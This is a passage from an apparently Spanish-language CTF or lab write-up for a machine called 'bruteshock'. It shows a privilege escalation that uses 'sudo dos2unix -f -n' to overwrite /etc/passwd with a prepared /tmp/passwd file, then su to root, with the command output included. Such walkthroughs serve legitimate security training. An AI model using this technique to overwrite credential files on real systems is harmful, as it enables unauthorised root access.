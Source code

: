 ![image-center](/assets/images/posts/bruteshock-passwd-modified.png){: .align-center}


## Root time - Overwriting the `/etc/passwd` File

Ahora preparamos el entorno para usar ambos archivos en nuestra escalada de privilegios

~~~ bash
pepe@5c050710a415:/$ passwd_new=/tmp/passwd
pepe@5c050710a415:/$ passwd_old=/etc/passwd
~~~

Ejecutamos `dos2unix` con `sudo` y usando ambos archivos

~~~ bash
pepe@5c050710a415:/$ sudo /usr/bin/dos2unix -f -n "$passwd_new" "$passwd_old"
dos2unix: converting file /tmp/passwd to file /etc/passwd in Unix format...
~~~

Finalmente cambiamos al usuario `root` con el comando `su`

~~~ text
pepe@5c050710a415:/$ su

root@5c050710a415:/# id
uid=0(root) gid=0(root) groups=0(root)
~~~



